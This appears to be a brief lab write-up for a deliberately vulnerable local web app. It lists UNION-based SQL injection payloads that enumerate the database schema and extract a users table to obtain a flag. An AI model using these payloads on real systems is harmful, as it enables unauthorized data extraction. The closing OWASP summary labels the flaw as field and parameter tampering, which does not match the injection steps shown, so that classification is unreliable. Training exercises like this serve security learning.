


# Breach 1

## Step by Step

### 1 : Inspect page http://192.168.56.104/?page=recover#

### 2 : 
#### Tests: 5 UNION SELECT 1,2 

ON ROUVE LE NOM DES DB ET TABLE

`5 or 1=1 UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.tables`

ON TROUVE LE NOM DES TABLES ET DES COLUMNS
`5 or 1=1 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`

ON TROUVE LES AUTRES COLONNES DE USERS qui contiennent potentiellement le flag

`5 or 1=1 UNION SELECT Commentaire,countersign FROM users`

### 3 : 
FortyTwo

## Summary
According to OWASP this vulnerabily is a :
* Hidden Field Tampering
* Web Parameter Tampering
* A01 – Broken Access Control

# Ressources 
* https://owasp.org/www-community/attacks/Web_Parameter_Tampering   
* https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html